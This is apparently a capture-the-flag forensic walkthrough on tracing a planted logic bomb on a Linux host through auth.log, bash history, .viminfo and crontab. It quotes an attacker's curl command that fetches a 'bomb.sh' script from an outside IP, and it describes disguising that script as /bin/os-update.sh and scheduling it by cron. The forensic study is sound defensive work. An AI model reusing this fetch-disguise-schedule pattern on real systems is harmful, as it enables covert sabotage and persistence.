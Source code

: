 # Task-1
1. Read the task carefully. Grab the Cup of Coffee and get ready to start ! :)

# Task-2
1. Review the given document carefully. Take a sip of the Coffee beacuase the journey is about to start! :)

# Task-3
1. To see the logs of the activites performed, the logs are present in the auth.log file where we can add the filter of [sudo] to see the logs for the activites assossiated with the elevated privileges, and [install] to see the logs for only installation. Hence, using the command [cat /var/log/auth.log | grep 'sudo' | grep 'install'] gives usa result where the command is writtena against the variable [COMMAND] as [/usr/bin/apt install dokuwiki].

2. In the same result, the current directory is written against [PWD] as [/home/cybert].

# Task-4
1. Since we have to figure out the creation of user, the command in the linux used to create a new user starts with [adduser]. So now lets read the log file with this filter, using the command [cat /var/log/auth.log | grep 'sudo']. This will give us the newly created user [it-admin].

2. When editing the sudoers file, the command starts with [visudo]. So lets jsut add this keyword now, using the command [cat /var/log/auth.log | grep 'visudo']. This will give two logs. The log with the user [cybert], is the required one, with the time [Dec 28 06:27:34].

3. Since the file was opened using the vi text editor, add this as a filter in the command [cat /var/log/auth.log | grep 'vi']. This will give us the command in which the script was opened [bomb.sh].

# Task-5
1. Now for the logs of the commands, we will read the file [.bash_history] for the user [it-admin]. Run the command 
[cat /home/it-admin/.bash_history]. This will show the command that was used to create the file bobm.sh 
[curl 10.10.158.38:8080/bomb.sh --output bomb.sh].

2. Since the renaming of the file is concerned when the file was eidted or saved using the editor tool used, we can see the logs of the [.viminfo]. To see the information, run the command [cat /home/it-admin/.viminfo]. Here in the logs, there is a log containing the information of [saveas], which contains the new renamed file [/bin/os-update.sh].

3. To see when this .viminfo file was last updated, we can see the full time using the command 
[ls -la --full-time /home/it-admin/.viminfo]. This will give the time [2022-12-28 06:29:52], which we can right in the required format [Dec 28 06:29].

4. Since we know the latest path of the new renamed file [/bin/os-update.sh], we can read its contents to the see the file that will get created. Run the command [cat /bin/os-update.sh]. Here in the contents of the script, the file can be seen as [goodbye.txt].

# Task-6
1. The scheduled tasks can be seen in the [crontab] file. Running the command [cat /etc/crontab] will give some output in which we can see the scheduling for the malicious script as well. In the starting of the line of that job, we can see the time as [0 8 ] which refers to the time [08:00 AM].

# Task-7
1. Click on the acknowledgement and enjoy the Badge!

